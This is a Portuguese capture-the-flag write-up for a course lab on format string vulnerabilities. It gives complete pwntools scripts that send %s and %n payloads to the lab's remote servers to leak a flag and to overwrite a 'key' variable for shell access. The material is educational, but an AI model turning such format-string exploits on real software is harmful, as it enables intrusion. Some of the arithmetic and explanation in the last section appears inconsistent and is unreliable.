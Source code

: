 # CTF Semana 7 - Format String

## Desafio 2 - Primeira Parte

Primeiramente, temos que utilizar o `checksec` para descobrir mais informação sobre o programa:

![image](Semana_7/images/checksec.png)

Como podemos ver, existe um **Stack Canary**, portanto não podemos fazer Buffer Overflow.<br>

Depois, utilizamos o `gdb` para descobrir o endereço da variável global `flag`:

![image](Semana_7/images/gdb.png)

Como podemos observar, o endereço da flag é `0x804c060`. Com este endereço, podemos utilizar um ataque de format string, pois há uma vulnerabilidade no `main.c`, onde são chamados **printf()** sem passar parâmetros de formato. Para fazer o ataque, alteramos o `exploit_example.py` para o seguinte:

```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

Devido ao que passamos dentro do **p.sendline()**, que é o endereço da **flag** (em little endian) e o `%s`, o que está naquele endereço será imprimido no terminal.<br>
Com isso, conseguimos obter a flag **flag{a77cc008c6b947169fca32cd56a4b47a}**.

## Desafio 2 - Segunda Parte

Analisando o `main.c`, conseguimos ver que, se o valor da variável global `key` for igual a **0xbeef**, então teremos acesso a uma shell, onde poderemos, de seguida, utilizar o comando `cat` para ler os valores do ficheiro `flag.txt`<br>

Primeiramente, tal como anteriormente, temos que utilizar o `gdb` para saber o endereço da variável `key`:

![image](/Semana_7/images/gdb2.png)

Sabemos, agora, que o endereço da variável `key` é **0x804b324**, portanto, utilizaremos, para escrever em cima desse endereço de memória, o `%n`, que escreve o número de bytes que percorreu no total. Como **0xbeef** em decimal é 48879, teremos que escrever 48879 bytes. Utilizaremos a notação `.Nx` utilizada nos labs. Como temos que escrever no início 4 bytes devido ao `x` e 4 bytes que são o endereço da `key`, então `N = 48879-4-4=48871`

```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"got:")
p.sendline(b"AAAA\x24\xb3\x04\x08.48871x%n")
p.interactive()
```

Com isto, conseguimos obter a flag:

![image](/Semana_7/images/flag2.png)


## Desafio 1 - Extra Dificuldade

Este exercício é semelhante à segunda parte do exercício anterior, no entanto, se utilizarmos o gdb obtemos o seguinte:

![image](/Semana_7/images/gdb3.png)

Como podemos ver, o endereço da `key` é **0x804b320**.<br>
Isto é ligeiramente problemático, pois para escrever nesse endereço fariamos o seguinte:

```py
p.sendline(b"AAAA\x20\xb3\x04\x08.48871x%n")
```

No entanto, o `\x20` é o valor hexadecimal para o espaço, e o **p.sendline()** acaba quando recebe um espaço, portanto, para escrevermos naquele endereço vamos começar a escrever no endereço diretamente anterior a esse dados aleatórios e o resto da mensagem será escrita no endereço correto.<br>
Nós decidimos escrever **0xBEFFFF**, portanto teremos de escrever 12513279 bytes. Como já escrevemos 4 bytes no **AAAA** e mais 4 bytes para o endereço  **0x804b31f**, então `N => 12513279 - 4 - 4 = 12513271`.


```py
from pwn import *

LOCAL = False
if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4008)

p.recvuntil(b"here...")
p.sendline(b"AAAA\x1f\xb3\x04\x08%.12513271x%n")
p.interactive()
```

Desta forma, o endereço **0x804b31f**, que está diretamente acima na stack em relação ao endereço **0x804b320**, e o valor da key terá **0xBEEF**.

![image](/Semana_7/images/flaghard.png)

Com isto, conseguimos obter a flag.